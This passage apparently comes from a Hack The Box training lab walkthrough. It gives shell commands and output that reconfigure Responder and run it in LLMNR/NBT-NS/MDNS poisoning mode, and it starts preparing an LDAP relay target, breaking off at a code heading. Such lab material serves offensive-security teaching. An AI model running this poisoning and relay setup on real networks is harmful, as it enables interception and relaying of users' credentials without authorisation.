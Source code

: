 ```shell
sed -i "s/SMB = On/SMB = Off/; s/HTTP = On/HTTP = Off/" Responder.conf
cat Responder.conf | grep -ie "SMB =\|HTTP ="
```

```shell-session
htb-student@ubuntu:~/tools/Responder$ sed -i "s/SMB = On/SMB = Off/; s/HTTP = On/HTTP = Off/" Responder.conf
htb-student@ubuntu:~/tools/Responder$ cat Responder.conf | grep -ie "SMB =\|HTTP ="
SMB = Off
HTTP = Off
```

Right after, students need to start `Responder` with `sudo` in "poisoning" mode by only specifying the `-I` parameter for the interface (`ens192`). Configuring the tool to poison every broadcast request/traffic.

Code: shell

```shell
sudo python3 Responder.py -I ens192
```

```shell-session
htb-student@ubuntu:~/tools/Responder$ sudo python3 Responder.py -I ens192
<SNIP>

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

<SNIP>

[+] Generic Options:
    Responder NIC              [ens192]
    Responder IP               [172.16.117.30]
    Responder IPv6             [fe80::250:56ff:feb9:80f3]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']

[+] Current Session Variables:
    Responder Machine Name     [WIN-6Y3FH7UTIW2]
    Responder Domain Name      [0RAB.LOCAL]
    Responder DCE-RPC Port     [45567]

[+] Listening for events...
```

Right after students have started `Responder`, they will have to establish a second SSH session to the spawned target. In the second SSH session, students will have to create a target file containing the host `172.16.117.3` while specifying `ldap://` as a protocol.

Code: shell
